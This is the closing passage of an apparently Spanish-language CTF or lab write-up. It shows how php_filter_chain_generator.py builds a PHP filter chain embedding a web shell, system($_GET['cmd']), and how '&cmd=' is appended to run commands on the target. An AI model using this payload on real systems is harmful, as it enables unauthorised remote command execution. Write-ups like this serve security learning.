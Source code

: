 Ahora podemos hacer lo mismo que en la intrucion intencionada, crear un payload que haga uso de **system** para ejecutar lo que recibe por el parametro **cmd** a traves de GET:

```ruby
python3 php_filter_chain_generator.py --chain '<?php system($_GET["cmd"]); ?>'
```

Al payload generado solamente al final le agregamos el **&cmd=** cuando lo ingresemos en la web

![](/assets/img/quick/9.png)

Eso ha sido todo, gracias por leer ❤